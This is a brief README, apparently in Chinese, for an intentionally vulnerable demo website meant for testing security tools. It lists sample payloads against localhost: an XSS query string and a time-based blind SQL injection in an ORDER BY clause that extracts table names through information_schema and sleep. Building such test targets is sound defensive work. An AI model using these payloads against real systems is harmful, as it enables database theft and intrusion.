 创建此仓库是为了测试安全工具开发而写的存在漏洞的demo网站

payload:

SQL注入支持json，post，get传参where注入

xss

http://127.0.0.1/xss.php?name=\&age=-alert(1)//

order by注入

select * from user ORDER BY id,if((select (SUBSTR((SELECT table_name FROM information_schema.TABLES WHERE table_schema=(SELECT DATABASE()) limit 1),1,1)='u')),sleep(1),0)

http://127.0.0.1/orderby.php?orderby=,if((select%20(SUBSTR((SELECT%20table_name%20FROM%20information_schema.TABLES%20WHERE%20table_schema=(SELECT%20DATABASE())%20limit%201),1,1)=%27u%27)),sleep(1),0)

